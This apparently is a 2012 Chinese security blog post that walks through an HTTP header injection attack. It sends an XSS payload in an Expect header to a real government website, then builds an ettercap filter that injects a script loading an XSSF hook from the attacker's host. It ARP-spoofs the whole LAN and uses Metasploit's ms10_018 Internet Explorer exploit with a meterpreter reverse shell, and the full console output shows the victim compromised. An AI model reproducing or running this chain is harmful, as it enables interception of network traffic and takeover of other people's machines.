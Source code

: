 title: "HTTP Header Injection "
date: 2012-08-02 14:46:01
tags:
id: 99
comment: false
---

正常http头
[code lang="c"]
GET / HTTP/1.1
Host: www.scjj.gov.cn
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Accept: */*
[/code]
在http头中加入异常处理Expect查看页面变化情况来确定是否存在漏洞
[code lang="c"]
GET / HTTP/1.1
Expect: &lt;script&gt;alert(12345)&lt;/script&gt;
Host: www.scjj.gov.cn
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Accept: */*
[/code]
[![](http://neusec.cc/wp-content/uploads/2012/08/20120802142821.jpg "20120802142821")](http://neusec.cc/wp-content/uploads/2012/08/20120802142821.jpg)

今天遇到一个蛋疼的问题，xssf只能用一次，第二次load xssf出现一下错误
Failed to load plugin from /opt/metasploit/msf3/plugins/xssf: uninitialized constant Msf::Xssf
从新安装后解决
svn export http://xssf.googlecode.com/svn/trunk/ XSSF
cd XSSF/
cp -rf * /opt/metasploit/msf3/
这样的话我每用一次都的这样操作一次，非常麻烦。

[code lang="c"]
root@bt:~/Desktop# msfconsole -y msf.yml
msf &gt; load xssf 
[-] Your Ruby version is 1.9.2\. Make sure your version is up-to-date with the last non-vulnerable version before using XSSF!
[+] Please use command 'xssf_urls' to see useful XSSF URLs
[*] Successfully loaded plugin: xssf
msf &gt; xssf_urls 
[+] XSSF Server          : 'http://10.1.1.137:8888/'            or 'http://&lt;PUBLIC-IP&gt;:8888/'
[+] Generic XSS injection: 'http://10.1.1.137:8888/loop'        or 'http://&lt;PUBLIC-IP&gt;:8888/loop'
[+] XSSF test page       : 'http://10.1.1.137:8888/test.html' or 'http://&lt;PUBLIC-IP&gt;:8888/test.html'

[+] XSSF Tunnel Proxy   : 'localhost:8889'
[+] XSSF logs page      : 'http://localhost:8889/gui.html?guipage=main'
[+] XSSF statistics page: 'http://localhost:8889/gui.html?guipage=stats'
[+] XSSF help page      : 'http://localhost:8889/gui.html?guipage=help'
[/code]

写一个简单的ettercap规则在http头中插入Expect
[code lang="c"]
if (ip.proto == TCP &amp;&amp; tcp.dst == 80){
replace(&quot;Accept-Encoding&quot;,&quot;Expect: &lt;script src=&quot;http://10.1.1.137:8888/loop&quot;&gt;&lt;/script&gt;&quot;);
}
[/code]
关于ettercap规则和使用http://www.0x50sec.org/wp-content/uploads/2010/03/linux520.ppt

编译规则并启用ettercap进行arp欺骗并修改数据包
root@bt:/usr/local/share/ettercap# etterfilter fuck.filter -o fuck.ef
root@bt:/usr/local/share/ettercap# ettercap -T -q -i eth0 -F fuck.ef -M ARP // // -P autoadd

局域网中的所有http头都将被更改，要是只想更改某个目标，指定http头，
就要使用更复杂的ettercap规则。

目标机是XP
[code lang="c"]
msf &gt; set payload windows/meterpreter/reverse_tcp
payload =&gt; windows/meterpreter/reverse_tcp
msf &gt; use exploit/windows/browser/ms10_018_ie_behaviors
msf  exploit(ms10_018_ie_behaviors) &gt; show options 

Module options (exploit/windows/browser/ms10_018_ie_behaviors):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1)
   URIPATH                      no        The URI to use for this exploit (default is random)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   (Automatic) IE6, IE7 on Windows NT, 2000, XP, 2003 and Vista

msf  exploit(ms10_018_ie_behaviors) &gt; set lhost 10.1.1.137
lhost =&gt; 10.1.1.137
msf  exploit(ms10_018_ie_behaviors) &gt; exploit 
[*] Exploit running as background job.

[*] Started reverse handler on 10.1.1.137:4444 
msf  exploit(ms10_018_ie_behaviors) &gt; [*] Using URL: http://0.0.0.0:8080/2XVZcmbFPAw9Jc
[*]  Local IP: http://10.1.1.137:8080/2XVZcmbFPAw9Jc
[*] Server started.
msf  exploit(ms10_018_ie_behaviors) &gt; 
msf  exploit(ms10_018_ie_behaviors) &gt; 
msf  exploit(ms10_018_ie_behaviors) &gt; job
[-] Unknown command: job.
msf  exploit(ms10_018_ie_behaviors) &gt; jobs

Jobs
====

  Id  Name
  --  ----
  0   Exploit: windows/browser/ms10_018_ie_behaviors

msf  exploit(ms10_018_ie_behaviors) &gt; xssf_exploit 
[-] Wrong arguments: [JobID] must be an Integer.
[-] Wrong arguments: xssf_exploit [VictimIDs] [JobID]
[-] Use MSF 'jobs' command to see running jobs
msf  exploit(ms10_018_ie_behaviors) &gt; xssf_victims 

Victims
=======

id  xssf_server_id  active  ip          interval  browser_name       browser_version  cookie
--  --------------  ------  --          --------  ------------       ---------------  ------
10  1               true    10.1.1.134  5         Internet Explorer  6.0              YES

[*] Use xssf_information [VictimID] to see more information about a victim
msf  exploit(ms10_018_ie_behaviors) &gt; xssf_exploit 10 0
[*] Searching Metasploit launched module with JobID = '0'...
[+] A running exploit exists: 'Exploit: windows/browser/ms10_018_ie_behaviors'
[*] Exploit execution started, press [CTRL + C] to stop it !

[+] Remaining victims to attack: [10 (1)] 

[*] 10.1.1.137       ms10_018_ie_behaviors - Sending Internet Explorer DHTML Behaviors Use After Free (target: IE 6 SP0-SP2 (onclick))...

[+] Code 'Exploit: windows/browser/ms10_018_ie_behaviors' sent to victim '10'
[+] Remaining victims to attack: NONE
[*] 10.1.1.137       ms10_018_ie_behaviors - Sending Internet Explorer DHTML Behaviors Use After Free (target: IE 6 SP0-SP2 (onclick))...
[*] Sending stage (752128 bytes) to 10.1.1.134
[*] Meterpreter session 1 opened (10.1.1.137:4444 -&gt; 10.1.1.134:1066) at 2012-08-02 14:13:59 +0800
[*] Session ID 1 (10.1.1.137:4444 -&gt; 10.1.1.134:1066) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (2372)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3300
[+] Successfully migrated to process 

^C[-] Exploit interrupted by the console user
msf  exploit(ms10_018_ie_behaviors) &gt; sessions -i

Active sessions
===============

  Id  Type                   Information  Connection
  --  ----                   -----------  ----------
  1   meterpreter x86/win32  Xxx @ X     10.1.1.137:4444 -&gt; 10.1.1.134:1066 (10.1.1.134)

msf  exploit(ms10_018_ie_behaviors) &gt; sessions -i 1
[*] Starting interaction with 1...

meterpreter &gt; sysinfo
Computer        : X
OS              : Windows XP (Build 2600, Service Pack 2).
Architecture    : x86
System Language : zh_CN
Meterpreter     : x86/win32
[/code]